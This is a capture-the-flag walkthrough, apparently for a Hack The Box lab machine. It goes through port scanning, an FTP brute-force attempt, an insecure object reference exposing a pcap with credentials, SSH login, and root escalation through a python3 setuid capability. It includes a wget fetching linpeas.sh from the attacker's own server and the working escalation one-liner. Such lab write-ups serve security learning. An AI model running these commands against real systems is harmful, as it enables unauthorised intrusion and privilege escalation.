



<p align="center">
  
</p>

***

# External Recon

As always we start to get a lay of the land with our default "nmap" scan:

```
nmap -sC -sV 10.10.10.245

PORT   STATE SERVICE VERSION
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

Nothing unusual so far. However, since we have some version numbers let's check them with searchsploit.


Nothing for vsftp. OpenSSH looks quite new but I suggest checking it aswell.
I just made a mental note to come back to SSH should other paths seem to be a dead end.
Gunicorn had no version number, so I skipped the searchsploit aswell. But we can take a look at the website itself.


# Explore

First thing I noticed is the authenticated user named "Nathan". Could be handy if we want to bruteforce SSH or FTP.
I actually tried bruteforcing FTP with the username "nathan" and the "rockyou" wordlist. But I got blacklisted. So that
was a dead end.

Let's play with the webapp. I tried to logout and view the settings. But these functions are not implemented. So nothing to gain here.
The next thing I looked at was the menu entry "IP Config" and "Network Status".


Both entries return console output of the kind you would expect. IP Config returned the IP Config of the box for example.
Sometimes developers try to be efficient and pass parameters from the website to the backend. A perfect target for code injection.
Not this time though. Both outputs seemed to be static and not triggered by some sort of PHP script. 

I then took a look at the last entry "Security Snapshot".
On the website I got some network traffic statistics and an option to download a pcap file of said traffic.


In the screenshot above you can see, there was no traffic. And the pcap was also empty.
Hm. What now?

Well. We know that "Nathan" logged in at some point. Maybe we can find some credentials in the pcap?
Looking at the URL bar, we can see that there's a "3" behind the folder "data". And the pcap-name we downloaded aligns with
that number.



Let's check if there's a "2.pcap". And there is. Albeit empty too.



There's even a "0.pcap". And this one has indeed data in it.
Let's download it and open it with wireshark.


Awesome. We have his FTP credentials.


# Exploit

Let's login with our new credentials via SSH. Why SSH? Well, it's an easy box.
Nathan probably reused his password, and SSH is far more interessting than FTP. And if it doesn't work, we can come back to FTP.


Told you. Oh, we also have the user flag here.

# Internal Recon

Once I am on a machine, I do two things. I check if `sudo -l` gives me some insights and I upload `linpeas.sh`.
To do that I fire up a simple http server on my own machine with `python3 -m http.server 80` and download the file via `wget http://<ip>/linpeas.sh`.



After launching it and going through the output my eyes fell on this entry.


# Privilege Escalation
Capabilities are often easy to exploit. They are [explained here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).
In this case python3 has been allowed to change the UID of a new process. Which means we can start a new process, let's say /bin/sh, with UID 0 aka root - we will have root permissions.

Let's try it.

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`


Great. It worked as expected. We can take the root flag and finish the box.

That's it for today. Have a nice one!

x41
